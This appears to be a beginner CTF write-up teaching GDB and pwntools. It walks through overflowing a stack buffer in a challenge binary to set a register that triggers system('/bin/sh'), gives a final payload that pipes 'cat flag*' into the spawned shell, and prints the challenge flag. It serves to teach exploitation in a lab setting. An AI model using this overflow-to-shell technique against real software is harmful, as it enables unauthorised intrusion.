





<!--
cls
gdb overflowwwwwwwww -q
info functions
break main
run
disassemble
print/s (char*)0x8002036
delete 1
break *0x0000000008001264
continue
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
layout regs
focus cmd
print/x $rax
run < <(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa')
y
print/x $rax

---

python
from pwn import *
cyclic(100)
flat( { p64(0x6161617661616175): p64(0x13371337) } )
flat( { p64(0x6161617661616175): p64(0x13371337) } ) + b"\n cat flag.txt"

-->


Time for an intro to GDB and pwntools! <br>
_Assuming some knowledge of built-in functions in C_

This is very much meant to be a follow-along tutorial, definitely download the file
and start up GDB and a python repl on your own, and use the commands used throughout here.



Also, I personally use Ghidra for static analysis alongside gdb and pwntools. You can 
technically do static analysis within GDB, and I'll show some of that here; but
I highly recommend finding and using a better tools.

First of all, on GDB, check the functions:
```shell
(gdb) info functions
```

There isn't much interesting here except `system` and `main`. Put a breakpoint in `main`,
run the program, and view the assembly code.

```shell
(gdb) break main
(gdb) run
(gdb) disassemble
```



Here we see an interesting block of code:

```shell
   0x0000000008001264 <+155>:   cmp    $0x13371337,%rax
   0x000000000800126a <+161>:   jne    0x8001278 <main+175>
   0x000000000800126c <+163>:   lea    0xdc3(%rip),%rdi        # 0x8002036
   0x0000000008001273 <+170>:   callq  0x80010a0 <system@plt>
```

If the `$rax` register contains `0x13371337`, it'll call `system` with the argument `0x8002036`. <br>

We know `system` usually expects a string as its argument. What is the string at `0x8002036`?

```shell
(gdb) # print/s mean print a string
(gdb) print/s (char*)0x8002036
$1 = 0x8002036 "/bin/sh"
```

Perfect :) <br>
We know our goal.

---

Time to put a breakpoint at the comparison, and see what happens when we get there.

```shell
(gdb) # remove the breakpoint at main
(gdb) delete 1
(gdb) break *(main+155)
(gdb) continue
```

The program waits for `stdin`. Try putting in:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA



Also, try turning on GDB's Text UI:

```shell
(gdb) layout regs
(gdb) focus cmd
```



That helps make GDB feel more user-friendly, doesn't it? :) 

We can already see in our TUI that we've (probably) already injected into `$rax`, 
since it's `0x4141414141414141`.

Just to be sure, you can check with:
```shell
(gdb) print/x $rax
```

Now, time to use some basic functionality from `pwn` to find the offset.

In our Python repl, try:
```python
>>> cyclic(100)
```
The idea behind this special string is that any 4 byte substring shows up only once in the string. <br>
(think something similar to a string like "00010002000300040005...", but using a longer alphabet) <br>
So, if we happen to find 4 or 8 bytes from the middle of the user input in some register, 
finding the index of the input should be no problem.

Copy the insides of the bytestring and try sending it as stdin after restarting the binary:

```shell
(gdb) run < <(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa')
(gdb) print/x $rax
```

We find that `$rax` is `0x6161617661616175`.

We can use pwntools to generate our exploit:
```python
>>> flat( { p64(0x6161617661616175): p64(0x13371337) } )
```
The `flat` function automatically replaces values from `cyclic()` with the values in the dict argument. 

Finally, tack in a `\n cat flag.txt` on the end to send some commands to `/bin/sh`.



---

This gives us a final exploit of: 
```shell
echo -e 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa7\x137\x13\x00\x00\x00\x00\n cat flag* \n exit'
```

Pipe that into the remote to get the flag: <br>
`ictf{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa_h34p_c4n_b3_0v3rfl0w3d_t00}`
